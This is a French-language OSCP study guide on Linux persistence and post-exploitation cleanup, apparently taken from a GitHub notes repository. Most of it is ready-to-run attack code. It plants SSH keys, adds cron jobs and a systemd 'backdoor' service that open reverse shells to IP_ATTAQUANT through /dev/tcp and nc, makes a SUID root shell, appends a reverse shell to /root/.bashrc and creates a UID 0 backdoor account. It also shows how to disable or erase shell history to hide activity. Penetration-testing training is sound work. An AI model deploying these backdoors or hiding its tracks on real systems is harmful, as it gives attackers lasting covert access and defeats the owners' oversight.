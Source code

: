 # 06-Persistance et Nettoyage

Après avoir réussi à élever les privilèges, il est souvent nécessaire de maintenir l'accès au système et de nettoyer les traces de l'intrusion, en particulier dans un contexte d'examen comme l'OSCP ou lors d'engagements réels.

## Maintien de l'Accès (Persistance)

L'objectif de la persistance est de s'assurer que l'accès au système compromis peut être rétabli même après un redémarrage ou si la vulnérabilité initiale est corrigée.

**Techniques Courantes de Persistance Linux :**

1.  **Clés SSH Autorisées :**
    *   Ajouter votre clé publique SSH au fichier `~/.ssh/authorized_keys` de l'utilisateur root (ou d'un autre utilisateur privilégié).
    ```bash
    # Sur la machine attaquante
    # cat ~/.ssh/id_rsa.pub

    # Sur la machine cible (en tant que root)
    mkdir -p /root/.ssh
    echo "ssh-rsa AAAAB3NzaC1yc2EAAA..." >> /root/.ssh/authorized_keys # Remplacez par votre clé publique
    chmod 700 /root/.ssh
    chmod 600 /root/.ssh/authorized_keys
    ```

2.  **Tâches Cron :**
    *   Créer une tâche cron qui exécute un reverse shell ou un autre payload à intervalles réguliers.
    ```bash
    # En tant que root
    (crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/IP_ATTAQUANT/PORT 0>&1'") | crontab -
    # Ou créer un fichier dans /etc/cron.d/
    echo "* * * * * root /usr/bin/nc -e /bin/bash IP_ATTAQUANT PORT" > /etc/cron.d/backdoor_cron
    chmod 644 /etc/cron.d/backdoor_cron
    ```

3.  **Binaires SUID :**
    *   Copier un shell et lui donner les permissions SUID root.
    ```bash
    # En tant que root
    cp /bin/bash /usr/local/bin/rootshell
    chmod u+s /usr/local/bin/rootshell
    # Utilisation : /usr/local/bin/rootshell -p
    ```
    *   **Attention :** C'est très bruyant et facile à détecter. À utiliser avec précaution.

4.  **Services Systemd/SysVinit :**
    *   Créer un service malveillant qui démarre automatiquement.
    *   Exemple Systemd (`/etc/systemd/system/backdoor.service`):
    ```ini
    [Unit]
    Description=My Backdoor Service
    After=network.target

    [Service]
    ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/IP_ATTAQUANT/PORT 0>&1'
    Restart=always
    User=root

    [Install]
    WantedBy=multi-user.target
    ```
    ```bash
    # En tant que root
    systemctl daemon-reload
    systemctl enable backdoor.service
    systemctl start backdoor.service
    ```

5.  **Modification de `.bashrc` / `.profile` :**
    *   Ajouter des commandes au fichier `.bashrc` ou `.profile` d'un utilisateur (y compris root) pour qu'elles s'exécutent à la connexion.
    ```bash
    # En tant que root, pour l'utilisateur root
    echo "bash -i >& /dev/tcp/IP_ATTAQUANT/PORT 0>&1 &" >> /root/.bashrc
    ```
    *   **Note :** L'esperluette `&` en fin de commande permet de l'exécuter en arrière-plan pour ne pas bloquer la connexion.

6.  **Comptes Utilisateur :**
    *   Créer un nouvel utilisateur avec des privilèges élevés ou modifier le mot de passe d'un utilisateur existant.
    ```bash
    # En tant que root
    # Créer un utilisateur avec UID 0 (équivalent à root)
    useradd -o -u 0 -g 0 -M -s /bin/bash backdoor_user
    echo "backdoor_user:VotreMotDePasseSecurise" | chpasswd

    # Ou ajouter un utilisateur existant au groupe sudo/wheel
    # usermod -aG sudo nom_utilisateur_existant
    ```

7.  **Web Shells (si applicable) :**
    *   Si un serveur web est présent et que vous avez les droits d'écriture dans le répertoire racine web, déposer un web shell.

**Considérations pour l'OSCP :**
*   La persistance est souvent une bonne pratique et peut être requise.
*   Choisissez des méthodes qui correspondent au contexte de la machine et qui sont relativement discrètes.
*   Documentez toujours les mécanismes de persistance que vous mettez en place.

## Nettoyage Post-Exploitation (OSCP Mindset)

Le nettoyage est crucial pour éviter de laisser des traces évidentes de votre passage et pour maintenir une approche professionnelle.

1.  **Suppression des Outils et Payloads :**
    *   Supprimez tous les scripts, exploits, binaires compilés, et autres fichiers que vous avez transférés ou créés sur la machine cible.
    ```bash
    rm /tmp/exploit.c /tmp/exploit /tmp/linpeas.sh /tmp/payload.sh /tmp/evil_lib.so /tmp/evil_lib.c
    # Adaptez la liste à vos fichiers
    ```

2.  **Nettoyage de l'Historique des Commandes :**
    *   Soyez prudent avec cela. Supprimer tout l'historique est suspect.
    *   Techniques pour éviter l'enregistrement (à utiliser *avant* les commandes sensibles) :
    ```bash
    export HISTFILESIZE=0
    export HISTSIZE=0
    unset HISTFILE
    # Ou pour Bash :
    # set +o history
    # Ou préfixer les commandes d'un espace (si HISTCONTROL contient ignorespace ou ignoreboth)
    #  echo $HISTCONTROL
    #  ma_commande_sensible
    ```
    *   Supprimer le fichier d'historique est une option, mais très visible :
    ```bash
    # rm ~/.bash_history
    # ln -s /dev/null ~/.bash_history # Empêche l'écriture future (peut être détecté)
    ```

3.  **Restauration des Configurations :**
    *   Si vous avez modifié des fichiers de configuration (ex: `/etc/passwd`, `/etc/sudoers`, fichiers de service), essayez de les restaurer à leur état d'origine si possible et si cela ne compromet pas votre accès (si la persistance est ailleurs et que vous quittez la machine).

4.  **Suppression des Mécanismes de Persistance :**
    *   Si la persistance n'est plus nécessaire ou si vous devez être particulièrement furtif à la fin de votre intervention, supprimez les mécanismes que vous avez mis en place.
    ```bash
    # Exemple suppression cron
    # (crontab -l | grep -v 'IP_ATTAQUANT' ) | crontab -
    # rm /etc/cron.d/backdoor_cron

    # Exemple suppression service systemd
    # systemctl stop backdoor.service
    # systemctl disable backdoor.service
    # rm /etc/systemd/system/backdoor.service
    # systemctl daemon-reload
    # systemctl reset-failed
    ```

5.  **Vérification des Logs (Lecture, pas suppression agressive) :**
    *   Examinez les logs (`/var/log/auth.log`, `/var/log/syslog`, logs applicatifs) pour comprendre quelles traces votre activité a pu laisser. La suppression agressive des logs est généralement une mauvaise idée, très détectable et peut détruire des preuves importantes pour les administrateurs système. Comprendre ce qui est logué est plus important pour adapter vos techniques futures.

**Principes Clés du Nettoyage :**
*   **Furtivité :** Agissez de manière à minimiser les artefacts.
*   **Réversibilité :** Si vous modifiez quelque chose, sachez comment le défaire.
*   **Contexte :** Adaptez vos actions de nettoyage à l'environnement et aux objectifs (examen vs. engagement réel).
*   **Documentation :** Notez les modifications que vous effectuez pour pouvoir les annuler proprement. 